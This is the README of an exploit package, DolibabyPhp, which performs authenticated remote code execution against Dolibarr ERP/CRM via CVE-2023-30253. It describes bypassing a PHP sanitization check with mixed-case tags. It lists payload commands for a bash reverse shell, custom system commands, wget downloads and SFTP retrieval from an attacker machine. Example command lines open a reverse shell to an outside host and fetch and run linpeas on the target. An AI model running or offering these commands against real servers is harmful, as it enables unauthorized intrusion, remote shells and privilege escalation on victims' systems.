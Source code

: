 # DolibabyPhp

An authenticated RCE exploit for Dolibarr ERP/CRM CVE-2023-30253.

## Installation

You can either install the package from the PyPi repository with `pip` or `git clone` the source directly from GitHub.

```shell
pip install dolibabyphp
```

## Usage

```txt
Usage: python -m dolibabyphp [OPTIONS] TARGET_URL USERNAME PASSWORD COMMAND
                             [ARGS]...

  This exploit will log into the Dolibarr web server at the specified target URL
  with the provided username and password. After that it will attempt to create
  a web page with a unique name. Once created, it will modify the web page to
  include the custom PHP code bypassing the sanitation check by not using only
  lowercase letters (e.g. PHP or pHp instead of php). There are multiple
  payloads to choose from After the payload has finished running, the web page
  will be deleted.

Options:
  --site-name TEXT       Specify a name to use when creating a site on the
                         target. Defaults to UUIDv4.
  --page-name TEXT       Specify a name to use when creating a page on the
                         target. Defaults to UUIDv4.
  --page-title TEXT      Specify a title for the page. Defaults to the page
                         name.
  --proxy TEXT           Specify a proxy URL for use in all requests.
  -o, --output FILENAME  Specify a file path to output the results of the
                         payload to. Defaults to stdout.
  --help                 Show this message and exit.

Commands:
  bash-reverse-shell     Spawns a bash shell on the victim machine and...
  cleanup                Runs the cleanup script on the target for given site...
  custom-php-payload     Specify your own PHP payload to be run on the victim...
  custom-system-payload  Specify your own payload to be run via PHP system()...
  sftp                   SFTPs to the attacker machine, downloads the...
  wget                   Downloads the file at the specified URL to to the...
```

### Examples

```shell
# Reverse shell with Bash
python -m dolibabyphp http://example.com/ username1 pass_word23 bash-reverse-shell --lhost 1.2.3.4 --lport 4444

# Testing with a proxy
python -m dolibabyphp --proxy http://127.0.0.1:8080 http://example.com/ username1 pass_word23 custom-system-payload --payload "uname -a"

# SFTP linpeas to the target, execute it, and save the output to a file on the attacker machine.
python -m dolibabyphp -o ./linpeas-output.txt http://example.com/ username1 pass_word23 sftp --private-key-file ./id_ed25519 sftp://me@1.2.3.4:2222/linpeas.sh ./style.css
```

## Running from source

In order to run the project from the source code, make sure you add the `src/` directory to the `PYTHONPATH` and then import the module `dolibabyphp` with the `-m` flag.

```shell
PYTHONPATH="$(pwd)/src/" python -m dolibabyphp
```
